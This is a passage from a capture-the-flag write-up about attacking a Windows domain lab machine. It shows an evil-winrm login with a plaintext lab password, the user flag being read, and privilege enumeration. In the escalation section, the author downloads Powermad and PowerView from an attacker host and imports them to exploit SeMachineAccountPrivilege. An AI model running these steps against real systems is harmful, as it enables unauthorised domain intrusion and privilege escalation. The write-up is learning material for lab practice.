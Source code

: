 With this info we can finally login to the victim and nab the user flag!

```console
└──╼ [★]$ evil-winrm -u support -p Ironside47pleasure40Watchful -i 10.129.53.172

Evil-WinRM shell v3.3

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\support\Documents> 
```
```console
*Evil-WinRM* PS C:\Users\support\Desktop> cat user.txt
e5e4d***************************
```

# Privilege Escalation

I had some issues getting winpeas to run but when I finally did I received alot of permission denied so it did not end up helping me.

Luckily the privilege escalation was pretty straight forward and ```SeMachineAccountPrivilege``` stood out to me. However this would be harder to exploit than I expected.

```console
*Evil-WinRM* PS C:\Users\support\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```
The link below has a good guide on how to exploit this but did not work for me. It also gave links on 2 programs that need to be uploaded and imported to the victim.

```https://exploit.ph/cve-2021-42287-cve-2021-42278-weaponisation.html```

```console
*Evil-WinRM* PS C:\temp> curl http://10.10.14.35:8000/Powermad/Powermad.ps1 -o Powermad.ps1
*Evil-WinRM* PS C:\temp> import-module ./Powermad.ps1
*Evil-WinRM* PS C:\temp> curl http://10.10.14.35:8000/powerview.ps1 -o powerview.ps1
*Evil-WinRM* PS C:\temp> import-module ./powerview.ps1
```
From this point on is where I was stuck and received help.
